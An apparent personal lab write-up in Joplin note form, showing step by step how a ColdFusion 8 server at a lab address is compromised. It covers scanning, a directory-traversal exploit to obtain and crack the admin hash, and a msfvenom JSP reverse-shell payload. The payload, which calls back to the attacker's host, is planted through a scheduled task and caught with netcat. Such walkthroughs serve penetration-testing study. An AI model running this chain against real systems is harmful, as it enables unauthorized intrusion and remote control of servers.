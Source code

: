 Getting a Foothold

Getting a Foothold

# Works
1. TCP port scan via NMAP using no ping switch (-Pn) reveals one open port 80.

2. Run a non-recursive dirb scan on port 80. Reveals 2 interesting directories: 10.11.1.10/cfdocs and 10.11.1.10/cfide. 

3. Run a Nikto scan and see that there is mention of ColdFusion Administrator link.

4. Run dirb on the ColdFusion Administrator link 10.11.1.10/cfide/administrator/ and discover many directories

5. Research for a default administrator password. Findings indicate that ColdFusion in general is susceptible to directory traversal.

6. Run searchsploit 14641 to find the 'admin' password hash 

7. Crack the ColdFusion 8 'admin' password hash on crackstation.net

8. Login to ColdFusion 8 with admin:pass123

9. Notice that there is a feature to schedule tasks which allows one to download files from a webserver and save them locally. 

10. Verify a path where we can save shellcode using Server Settings -> Mappings

11. Generate a .jsp shell because ColdFusion serves and runs .jsp files
### msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f raw > shell.jsp
![8533c0d325c0cb6b816dc36ff5007986.png](:/4927083854ed49f885fe939d62ee5054)

12. Serve shell.jsp on port 80:
### python -m SimpleHTTPServer 80
![ef8504e0b18bd0d3074147b32a0ba2d5.png](:/bde568b6b389478998c0d8cef80cfd12)

13. Schedule a task in ColdFusion to run our webshell.
![03bad07499fb3d63ece95e3f77975ed6.png](:/80ce07bd386040f3bec85c183500516a)

14. The following fields must be input, then press 'Submit':
- Task Name: shell
- URL: http://192.168.119.214/shell.jsp
- Publish: Ensure that the 'Save output to a file' is checkmarked
- File: C:\Inetpub\wwwroot\CFIDE\shell.jsp 
**Ensure that the 'File' field does not have any empty spaces before the path name**
![b8924c79c89469d840ee6413d68738a6.png](:/40549031d805467a8de54d25a668c76a)

15. Verify that shell.jsp was served to our target
![51d5e4d806a933d613f15cffb155e252.png](:/08da449b6edb4352b4c55206fca3db67)

16. Set up a netcat listener on port 443 to catch the webshell
![fa7d968101f58bb1c507959fd6af22c3.png](:/d806078176334e2f8781cfefbea6d8f3)

16. Browse to the webshell on the target
### http://10.11.1.10/CFIDE/shell.jsp

17. We now have a shell!
![c1178d1b1b80dd4334b3f1fc59f8c5ed.png](:/3e4cb8c3502d4dcf90612d6792697d2e)


id: 977589d948394468919e9e6f95a7ac99
parent_id: 993b555b96794a5c936f8949d643080a
created_time: 2020-08-24T23:07:04.636Z
updated_time: 2020-08-25T10:17:49.987Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-24T23:07:04.636Z
user_updated_time: 2020-08-25T10:17:49.987Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1